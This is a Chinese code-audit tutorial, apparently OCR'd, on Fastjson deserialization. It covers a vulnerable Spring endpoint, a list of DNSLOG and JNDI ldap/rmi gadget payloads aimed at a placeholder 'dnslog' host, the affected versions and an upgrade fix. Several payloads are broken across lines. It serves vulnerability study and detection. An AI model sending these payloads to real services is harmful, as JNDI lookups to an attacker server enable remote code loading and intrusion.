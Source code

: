 ava代码审计之fastjson反序列化



# 可利用原因

Fastjson反序列化漏洞被利用的原因，可以归结为两方面：  
一、Fastjson提供了反序列化功能，允许用户在输入JSON串时通过 “@type”键对应的value指定任意反序列化类名；  
二、Fastjson自定义的反序列化机制会使用反射生成上述指定类的 实例化对象，并自动调用该对象的setter方法及部分getter方法。 攻击者可以构造恶意请求，使目标应用的代码执行流程进入这 部分特定setter或getter方法，若上述方法中有可被恶意利用的逻辑 （也就是通常所指的“Gadget”），则会造成一些严重的安全问题。 官方采用了黑名单方式对反序列化类名校验，但随着时间的推移及 自动化漏洞挖掘能力的提升。新Gadget会不断涌现，黑名单这种治 标不治本的方式只会导致不断被绕过，从而对使用该组件的用户带 来不断升级版本的困扰 对编程人员而言，在使用Fastjson反序列化时会使用到Fastjson所 提供的几个静态方法：

```
parse (String text) 
parseObject(String text) 
parseObject(String text, Class clazz)  
```

无论使用上述哪种方式处理JSON字符串，都会有机会调用目标类中 符合要求的Getter方法或者Setter方法，如果一个类中的Getter或 者Setter方法满足调用条件并且存在可利用点，那么这个攻击链就 产生了  
核心代码：

```
@RequestMapping(value = "/deserialize", method = {RequestMethod.POST})
    @ResponseBody
    public String Deserialize(@RequestBody String params) {
        // 如果Content-Type不设置application/json格式，post数据会被url编码
        try {
            // 将post提交的string转换为json
            JSONObject ob = JSON.parseObject(params);
            return ob.get("name").toString();
        } catch (Exception e) {
            return e.toString();
        }
    }
```

使用parseObject 来解析json字符串  
用POST方法打开，Content-Type设置为application/json，暴露使 用的fastjson  
![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20220917%2F1663380223_63252aff22fa13cdbfabc.png%21small)

# 使用DNSLOG验证

```
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"name":
{"@type":"java.net.InetAddress","val":"dnslog"}}
{"@type":"java.net.InetSocketAddress"
{"address":,"val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject",
{"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL","val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL","val":"dnslog"}]
Set[{"@type":"java.net.URL","val":"dnslog"}
{{"@type":"java.net.URL","val":"dnslog"}:0
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari
.HikariConfig","metricRegistry":"ldap://dnslog/"}
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari
.HikariConfig","healthCheckRegistry":"ldap://dnslog/
"}
{"@type":"org.apache.shiro.realm.jndi.JndiRealmFacto
ry", "jndiNames":["ldap://dnslog/"], "Realms":[""]}
{"@type":"org.apache.xbean.propertyeditor.JndiConver
ter","asText":"ldap://dnslog/"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.J
taTransactionConfig","properties":
{"@type":"java.util.Properties","UserTransaction":"l
dap://dnslog/"}
{"@type":"org.apache.cocoon.components.slide.impl.JM
SContentInterceptor", "parameters":
{"@type":"java.util.Hashtable","java.naming.factory.
initial":"com.sun.jndi.rmi.registry.RegistryContextF
actory","topic-factory":"ldap://dnslog/"},
"namespace":""}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","he
althCheckRegistry":"ldap://dnslog/"}
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSource
Name":"ldap://dnslog/", "autoCommit":true}
{"@type":"org.apache.commons.proxy.provider.remoting
.SessionBeanProvider","jndiName":"rmi://dnslog/"}
{"@type":"org.apache.commons.proxy.provider.remoting
.SessionBeanProvider","jndiName":"ldap://dnslog/","O
bject":"a"}
{"@type":"com.zaxxer.hikari.HikariConfig","metricReg
istry":"ldap://dnslog/"}
{"@type":"com.zaxxer.hikari.HikariConfig","healthChe
ckRegistry":"ldap://dnslog/"}
{"@type":"com.zaxxer.hikari.HikariConfig","metricReg
istry":"rmi://dnslog/"}
{"@type":"com.zaxxer.hikari.HikariConfig","healthChe
ckRegistry":"rmi://dnslog/"}
```

![image.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimage.3001.net%2Fimages%2F20220917%2F1663380278_63252b3689019375e9f79.png%21small)

# 漏洞版本

fastjson <=1.2.68

# 修复

fastjson 升级到最新版本